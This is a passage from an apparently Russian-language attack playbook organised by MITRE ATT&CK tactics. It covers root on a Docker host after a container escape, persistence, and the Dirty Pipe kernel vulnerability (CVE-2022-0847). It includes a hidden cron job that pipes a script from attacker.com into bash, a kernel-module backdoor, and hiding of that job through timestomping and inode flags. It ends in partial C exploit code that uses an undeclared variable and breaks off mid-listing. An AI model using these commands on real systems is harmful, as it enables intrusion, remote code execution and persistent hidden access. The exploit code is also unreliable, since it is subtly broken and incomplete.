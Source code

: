 ```bash
# Внутри контейнера (после срабатывания):
/bin/bash -p  # Запуск SUID-баша
whoami  # root (на хосте!)
hostname # docker-host
```

---

##### [TA0003] – Persistence  
**Установка персистентности:**  
```bash
# 1. Создание скрытого cron-задания
echo '* * * * * root curl http://attacker.com/shell.sh | bash' > /etc/cron.d/.system-update

# 2. Установка kernel module backdoor
insmod /lib/modules/$(uname -r)/kernel/drivers/hid/hid-generic.ko
```

**Маскировка:**  
```bash
# Изменение времени доступа файлов
touch -d "2020-01-01 12:00" /etc/cron.d/.system-update

# Использование скрытых inode
debugfs -w /dev/sda1 -R "set_inode_field /etc/cron.d/.system-update i_flags 0x80000"
```

---

#### Пример 3: Dirty Pipe (CVE-2022-0847)  
**Контекст:**  
Уязвимость в подсистеме pipe ядра Linux, позволяющая перезаписывать произвольные read-only файлы.  

**Условия:**  
- Ядра версий 5.8 — 5.16.11  

---

##### [TA0007] – Discovery  
```bash
# 1. Проверка версии ядра
uname -r  # 5.13.0-30-generic

# 2. Проверка наличия уязвимости
grep -q PIPE_BUF_FLAG_CAN_MERGE /proc/kallsyms && echo "Уязвим" || echo "Не уязвим"
```

---

##### [TA0004] – Privilege Escalation  
**Эксплоит (dirtypipe.c):**  
```c
#include <fcntl.h>
#include <unistd.h>
int main(int argc, char **argv) {
  // 1. Создание pipe
  int p[2];
  pipe(p);

  // 2. Заполнение pipe (8 страниц)
  for (int i = 0; i < 8; i++)
    write(p[1], "AAAAAAAA", 8);

  // 3. Освобождение буферов
  read(p[0], buffer, 8);

  // 4. Установка флага PIPE_BUF_FLAG_CAN_MERGE
```